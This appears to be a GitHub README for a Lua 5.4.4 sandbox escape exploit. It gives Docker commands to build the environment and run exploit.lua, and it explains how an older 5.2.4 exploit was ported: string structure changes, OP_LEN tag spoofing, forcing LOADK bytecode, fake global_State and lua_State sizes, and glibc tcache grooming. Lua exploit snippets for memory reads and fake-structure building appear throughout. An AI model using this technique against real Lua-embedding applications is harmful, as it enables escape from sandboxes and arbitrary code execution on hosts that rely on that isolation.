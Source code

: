 # lua-5.4.4-sandbox-escape

### Create docker image

```sh
docker build --tag lua-5.4.4-escape/x64:latest x64
```
### How to run

```sh
docker run -it lua-5.4.4-escape/x64:latest /bin/bash
```

### Exploit

```sh
/LUA/lua/lua /LUA/exploit.lua
```



### What has changed from version 5.2.4 sandbox escaping exploit code?

- TString

    `v5.2.4 Lua TString`
    ```c++
    /*
    ** Header for string value; string bytes follow the end of this structure
    */
    typedef union TString {
      L_Umaxalign dummy;  /* ensures maximum alignment for strings */
      struct {
        CommonHeader;
        lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
        unsigned int hash;
        size_t len;  /* number of characters in string */
      } tsv;
    } TString;
    ```


    `v5.4.4 Lua TString`
    ```c++
    /*
    ** Header for a string value.
    */
    typedef struct TString {
      CommonHeader;
      lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
      lu_byte shrlen;  /* length for short strings */
      unsigned int hash;
      union {
        size_t lnglen;  /* length for long strings */
        struct TString *hnext;  /* linked list for hash table */
      } u;
      char contents[1];
    } TString;
    ```

    Moving from 5.2.4 to 5.4.4, you can see that the variable handling the length of TString is managed by dividing it into shrlen and lnglen.

- OP_LEN code

    `v5.2.4 Lua OP_LEN code`
    ```c++

    void luaV_execute (lua_State *L) {
    /*skipped*/
    vmcase(OP_LEN,
            Protect(luaV_objlen(L, ra, RB(i)));
          )
    /*skipped*/
    }


    void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
      const TValue *tm;
      switch (ttypenv(rb)) {
    /*skipped*/
        case LUA_TSTRING: {
          setnvalue(ra, cast_num(tsvalue(rb)->len));
          return;
        }
    /*skipped*/
    
      }
      callTM(L, tm, rb, rb, ra, 1);
    }
    
    #define LUA_TSTRING     4
    
    
    ```


    `v5.4.4 Lua OP_LEN code`
    ```c++
    void luaV_execute (lua_State *L, CallInfo *ci) {
    /*skipped*/
        vmcase(OP_LEN) {
                Protect(luaV_objlen(L, ra, vRB(i)));
                vmbreak;
              }
    /*skipped*/
    }
    
    /*
    ** Main operation 'ra = #rb'.
    */
    void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
      const TValue *tm;
      switch (ttypetag(rb)) {
    /*skipped*/
        case LUA_VSHRSTR: {
          setivalue(s2v(ra), tsvalue(rb)->shrlen);
          return;
        }
        case LUA_VLNGSTR: {
          setivalue(s2v(ra), tsvalue(rb)->u.lnglen);
          return;
        }
    /*skipped*/
    
      }
      luaT_callTMres(L, tm, rb, rb, ra);
    }
    
    /* Variant tags for strings */
    #define LUA_TSTRING     4
    #define LUA_VSHRSTR makevariant(LUA_TSTRING, 0)  /* short strings */
    #define LUA_VLNGSTR makevariant(LUA_TSTRING, 1)  /* long strings */
    ```
    
    As the length of TString is treated as shrlen and lnglen, the behavior of OP_LEN for strings has also changed, so tag must be set to LUA_VLNGSTR.
    
    
    ```lua
    local function readAddr(addr)
        collectgarbage()
    -- skipped
        local _addr = numTo64L(addr - 16)
        local padding_a = string.rep('\65', 8) -- 0x41 padding
        local padding_b = string.rep('\20', 15) -- LUA_VLNGSTR tag padding
    -- skipped
    
    ```



- OP_LOADI code

    Looking at the foo function that exists in the existing code, an integer value is put into the a variable. In version 5.2.4, the LOADK command is used to do this. However, since version 5.4.4 uses the LOADI command to handle integer assignment, it was possible to induce the use of the LOADK command by changing the integer assignment to a string assignment.
    
    `v5.2.4 Sandbox Escaping exploit code`
    
    ```lua
    local function foo()
        local a=1 a=2 a=3
        return (#a)
    end
    ```
    
    
    `v5.4.4 Sandbox Escaping exploit code`
    
    ```lua
    local function foo()
        local a="a" a="b" a="c" 
        return (#a)
    end
    ```

- global_State, lua_State structure size change

    When running the existing exploit, to create fake global_State and fake lua_State, a string is created as much as the size of the structure. At this time, the size of the structure changes and this is reflected.
    
    ```lua
        local l_G_addr = readAddr(readAddr(t_addr) + 0x18)
    
        l_G = memcpy(l_G_addr, 1416) -- sizeof(global_State)=1416
        l_G = numTo64L(addr) .. numTo64L(arg) .. l_G:sub(17)
        l_G_addr = bufferAddress(l_G)
    
    
        local t_buffer = memcpy(t_addr, 200) -- sizeof(lua_State)=200
    ```


- tcache bins clean (Ubuntu glibc ptmalloc)

    In the luaM_newvectorchekced function, the malloc function is called and the chunk of variable k is allocated. At this time, if the tcache bin is full, the desired chunk is not allocated and the exploit fails. Because of this, we allocate a variable and empty the chunk that exists in the tcache bin.
    
    ```lua
        -- clean tcache bins
    
        local t1 = {}
        local t2 = {}
        local t3 = {}
        local t4 = {}
        local t5 = {}
        local t6 = {}
        local t7 = {}
    
    
        local intermid = {}
    
        collectgarbage()
        intermid = nil
        k=nil
        collectgarbage()
    
        g, err = load(g)
        g() 
    ```





### Reference

[https://github.com/erezto/lua-sandbox-escape](https://github.com/erezto/lua-sandbox-escape)